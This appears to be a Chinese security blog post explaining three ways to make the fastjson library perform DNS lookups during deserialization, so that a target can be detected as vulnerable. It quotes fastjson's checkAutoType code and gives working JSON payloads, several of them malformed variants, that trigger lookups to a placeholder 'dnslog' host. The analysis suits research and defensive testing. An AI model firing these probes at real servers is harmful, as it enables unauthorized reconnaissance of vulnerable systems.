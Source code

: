 ```yaml
---
title: "fastjson dns"
author: ["4shen0ne"]
lastmod: 2024-12-14T01:40:11+08:00
tags: ["poc", "fastjson"]
draft: false
---
```


## 方法一：java.net.Inet[4|6]Address {#方法一-java-dot-net-dot-inet-4-6-address}

以下两个类没有在黑名单中(v1.2.67)，可以用来发送 dns 请求

```java
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
```

fastjson 在进行反序列化的过程中会执行 checkAutoType 方法对类进行检查（主要通过黑
白名单机制），相关代码如下：

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    ...
    Class clazz;

    // 1.当打开了 autoTypeSupport，类名又不在白名单时，则进行黑名单检查
    if (!internalWhite && (this.autoTypeSupport || expectClassFlag)) {
        hash = h3;

        for(mask = 3; mask < className.length(); ++mask) {
            hash ^= (long)className.charAt(mask);
            hash *= 1099511628211L;
            ....
            if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null && Arrays.binarySearch(this.acceptHashCodes, fullHash) < 0) {
                throw new JSONException("autoType is not support. " + typeName);
            }
        }
    }


    clazz = TypeUtils.getClassFromMapping(typeName);
    if (clazz == null) {
        // 2. fastjson 的 ParserConfig 类自己维护了一个 IdentityHashMap，在这个 HashMap 中的类会被认为是安全的，会直接被返回
        clazz = this.deserializers.findClass(typeName);
    }

    if (clazz == null) {
        clazz = (Class)this.typeMapping.get(typeName);
    }

    if (internalWhite) {
        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, true);
    }

    if (clazz != null) {
        if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
        } else {
            // 3. 直接返回，不再走下面的 autoTypeSupport 和黑名单检查
            return clazz;
        }
    } else {
        // 4. 不开启 autoType 时进行的黑名单检查
        if (!this.autoTypeSupport) {
            hash = h3;

            for(mask = 3; mask < className.length(); ++mask) {
                char c = className.charAt(mask);
                hash ^= (long)c;
                hash *= 1099511628211L;
                if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
                ...
            }
        }
    }
    ...
}
```
<div class="src-block-caption">
  <span class="src-block-number">Code Snippet 1:</span>
  com.alibaba.fastjson.parser.ParserConfig#checkAutoType
</div>

由于 Inet4Address 类不在黑名单中，可以通过 1 处的的的黑名单检查，且它存在于
IdentityHashMap 类中，所以在 3 处直接 return，跳过 4 处的检查，所以无论是否开启
AutoType，都可以跳过 checkAutoType 检查

fastjason 对于 Inet4Address 类会使用 MiscCodec 这个 ObjectDeserializer 来反序列化。跟进
发现解析器会取出 val 字段的值赋值给 strVal 变量，并通过
`InetAddress.getByName(strVal)` 进行域名解析


## 方法二：java.net.InetSocketAddress {#方法二-java-dot-net-dot-inetsocketaddress}

java.net.InetSocketAddress 类也在 IdentityHashMap 中，和方法一一样可以无视
checkAutoType，但是要执行 `InetAddress.getByName()` 需要跟着 json 的语法解析过程来构
造 payload

最终得到的畸形 payload 如下：

```text
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
```


## 方法三：java.net.URL {#方法三-java-dot-net-dot-url}

java.net.URL 类也在 IdentityHashMap 中，同样无视 checkAutoType 检查

这个类的利用思路和 ysoserial 的 URLDNS 一样：向 HashMap 压入一个键值对时，HashMap 需要
获取 key 对象的 hashcode。当 key 对象是一个 URL 对象时，在获取它的 hashcode 期间会调用
getHostAddress 方法获取 host，这个过程域名会被解析

```text
{{"@type":"java.net.URL","val":"http://dnslog"}:"x"}
```

fastjson 解析上述 payload 时，先反序列化出 `URL(http://dnslog)` 对象，然后将
`{URL(http://dnslog):"x"}` 解析为一个 HashMap，最终域名被解析

这个 payload 还有以下变体，原理都相同：

```nil
{"@type":"com.alibaba.fastjson.JSONObject", {"@type": "java.net.URL", "val":"http://dnslog"}}""}
Set[{"@type":"java.net.URL","val":"http://dnslog"}]
Set[{"@type":"java.net.URL","val":"http://dnslog"}
{{"@type":"java.net.URL","val":"http://dnslog"}:0
```
